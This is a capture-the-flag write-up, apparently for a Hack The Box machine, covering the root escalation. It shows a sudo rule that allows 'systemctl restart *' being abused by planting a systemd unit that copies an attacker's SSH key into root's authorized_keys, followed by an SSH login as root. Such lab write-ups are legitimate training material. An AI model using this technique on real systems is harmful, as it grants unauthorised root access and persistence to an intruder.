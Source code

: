 ```bash
svc@encoding:~$ cat u
cat user.txt 
a**********
```
User flag obtained, and i was in as a `svc`

What i could do as a `sudo`    
```bash
svc@encoding:~$ sudo -l
sudo -l
Matching Defaults entries for svc on encoding:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on encoding:
    (root) NOPASSWD: /usr/bin/systemctl restart *
svc@encoding:~$ 

```
So i could restart `systemd` tasks.   

At this point, i created a new, a temporary ssh key in my local machine, which i then added to `/home/scv/.ssh/authorized keys` manually, so i could get in with `ssh` for more stable shell, as this session was very laggy and buggy.   

After i was back in as `svc`:    

Made a task to `/tmp/privesc.service` copy authorized keys from "my" = `svc` home, to `/root/.ssh/authorized_keys` 
```bash                                       /tmp/privesc *                                                
[Service]
Type=oneshot
ExecStart=/bin/bash -c 'cp /home/svc/.ssh/authorized_keys /root/.ssh/authorized_keys'
[Install]
WantedBy=multi-user.target

```

Then i just copied it to systemd folder and restarted it:    
```bash
svc@encoding:~$ cp /tmp/privesc.service /etc/systemd/system/
svc@encoding:~$ sudo /usr/bin/systemctl restart privesc
```

To verify that it worked:   
Attack:
```bash
ssh -i htb_enc root@10.10.11.198
```

```bash
htb_enc = the ssh private key i created for this machine
-i the identity to use = the created key
```

